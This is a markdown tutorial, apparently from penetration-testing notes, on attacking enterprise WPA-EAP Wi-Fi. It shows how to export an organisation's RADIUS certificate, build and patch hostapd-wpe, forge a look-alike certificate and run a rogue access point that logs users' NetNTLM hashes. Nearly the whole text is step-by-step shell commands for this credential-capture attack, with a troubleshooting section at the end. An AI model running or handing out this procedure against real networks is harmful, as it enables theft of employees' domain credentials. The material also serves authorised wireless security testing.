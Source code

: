 ### Rogue Access Point - Attack EAP (TLS)
It's hard to check a RADIUS server (Authenticator) certificate. So as long as the organization does not use client certificates, but simple domain authentication (Active Directory for instance), we can try to capture some netntlm hashes.

#### Attack
1. Get the certificate the organization uses. Try to authenticate (with a valid username) and use Wireshark to export the certificate. Just find the certificate in the packets. Export the bytes. This is DER encoding
2. Download hostapd-2.6
```shell
mkdir -p ~/hostapd-attack
cd  ~/hostapd-attack
wget https://w1.fi/releases/hostapd-2.6.tar.gz
tar -vxf hostapd-2.6.tar.gz
``` 
3. Grab the WPE patches and apply
```shell
git clone https://github.com/OpenSecurityResearch/hostapd-wpe.git
cd hostapd-2.6
patch -p1 < ../hostapd-wpe/hostapd-wpe.patch
```
4. Build hostapd
```
cd hostapd
make -j8
```
5. Build the certificate(s)
```
cd ../../hostapd-wpe/certs 

# Edit the required cnf files, to make the certificate look like the original.
ls *.cnf

# After editing
./bootstrap

### If all fails, clean it up!
make clean
make destroycerts
```

6. Modify hostapd-wpe.conf
```shell
cd ../../hostapd-2.6/hostapd/

#Edit the required sections.
grep -E '^ssid=|^channel=|^wpa=|^interface=' hostapd-wpe.conf
```

7. Attack
```shell
sudo ./hostapd-wpe ./hostapd-wpe.conf
```

8. Hashes will be stored in `./hostapd-wpe.log`

### Problems
If you have problems setting up the access point, check the following:
- Does the card support AP mode? `iw list | grep -i 'Supported interface modes' -A 10`
- Is the card being used by network manager? (Try to add `iface WLAN_NAME inet manual` to `/etc/network/interfaces` and restart `sudo systemctl restart NetworkManager `)



